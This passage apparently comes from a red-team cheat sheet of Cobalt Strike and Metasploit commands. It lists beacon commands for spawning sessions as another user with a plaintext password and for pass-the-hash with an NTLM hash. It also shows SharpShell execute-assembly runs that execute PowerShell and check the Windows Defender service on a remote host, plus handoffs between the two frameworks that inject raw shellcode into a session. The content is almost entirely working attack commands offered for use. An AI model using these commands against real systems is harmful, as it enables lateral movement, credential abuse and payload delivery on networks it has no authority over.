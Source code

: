 ### Spawn

```
beacon> spawnas vault\b.boss Passw0rd peer-tcp
[...]

beacon> spawnu <pid> peer-tcp
[...]
```

### Pass the Hash

```
beacon> pth WKSTN-3\Administrator ccbe70d463aef35efd3cdf0d71416b82
```

### Resources
- https://github.com/GhostPack/SharpWMI
- https://github.com/Hackplayers/evil-winrm
- https://github.com/rasta-mouse/MiscTools
- https://github.com/iomoath/sharpstrike

## SharpShell

```
beacon> execute-assembly /opt/tools/SharpShell.exe return Shell.PowerShellExecute("whoami");
[...]

beacon> execute-assembly /opt/tools/SharpShell.exe var av = SCM.GetService("w-west-239","WinDefend"); return av.Status.ToString();
```

### Resources
- https://github.com/dwmkerr/sharpshell

## Foreign Listeners

CS -> MSF

```
# setup msf handler & create new CS listener to point to msf handler
beacon> spawn msf-listener
[...]
```

MSF -> CS

```
# In CS, Attacks -> Packages -> Payload Generator -> Raw
msf5> use post/windows/manage/shellcode_inject
msf5> set session 1
msf5> set shellcode /root/payload.bin
msf5> run
```
